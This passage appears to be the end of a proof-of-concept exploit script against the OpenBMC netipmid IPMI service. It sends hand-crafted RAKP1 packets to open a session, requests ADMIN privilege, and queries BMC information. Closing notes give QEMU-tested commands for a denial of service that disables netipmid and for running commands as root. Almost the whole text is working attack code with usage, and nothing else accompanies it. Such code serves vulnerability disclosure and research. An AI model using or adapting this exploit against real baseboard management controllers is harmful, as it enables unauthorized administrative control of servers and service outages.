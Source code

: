 ```
        raise Exception("[!] Not matched RMCP tag: %02x" % resp[16])
    sid = resp[24:28]
    print('[+] SID: 0x%08x' % unpack('<I', sid))
    time.sleep(3)

    print('[#] Send RAKP1, will enable session for selected channel')
    rakp1 = b'\x06\x00\xff\x07\x06\x12' + sid + b'\x00\x00\x00\x00\x20\x00\x03\x00\x00\x00' + sid + b'\x12{K\x02\xefH@?\xda\xf9\x20\x0e\x10\xa7\x91w\x04\x00\x00'
    rakp1 += bytes([len(opt_user)]) + bytes(opt_user, 'ascii')
    cli.write(rakp1)
    cli.read()
    time.sleep(3)

    print('[#] Request Privilege (ADMIN)')
    cli.write(b'\x06\x00\xff\x07\x00\x00\x00\x00\x00' + sid + b'\x08\x20\x18\xc8\x81\x04\x3b\x04\x3c\x00')
    try:
      cli.read()
    except socket.timeout:
      raise Exception("[!] Request Privilege (ADMIN) failed")

    print('[#] Request BMC info')
    cli.write(b'\x06\x00\xff\x07\x00\x00\x00\x00\x00' + sid + b'\x07\x20\x18\xc8\x81\x08\x01\x76')
    failed = False
    try:
      resp = cli.read()[14:]
      failed = resp[-3] != 0
    except socket.timeout:
      failed = True

    if failed:
      raise Exception("[!] Request BMC info failed")

    mfg = unpack('<I', resp[13:16]+b'\x00')[0]
    prod = unpack('<H', resp[16:18])[0]
    print("[+] Mfg = %s  Product = %s (0x%x)" % (mfg, prod, prod))


if __name__ == '__main__':
    try:
        main()
    except Exception as e:
        print(e)
```

Sample invocations (tested in QEMU):

DoS (invoke several times to disable netipmid):
`$ ./pwn3d-netipmid.py -H 127.0.0.1 -p 10623`

Run "mc info" command:
`$ ./pwn3d-netipmid.py -H 127.0.0.1 -U root -p 10623`
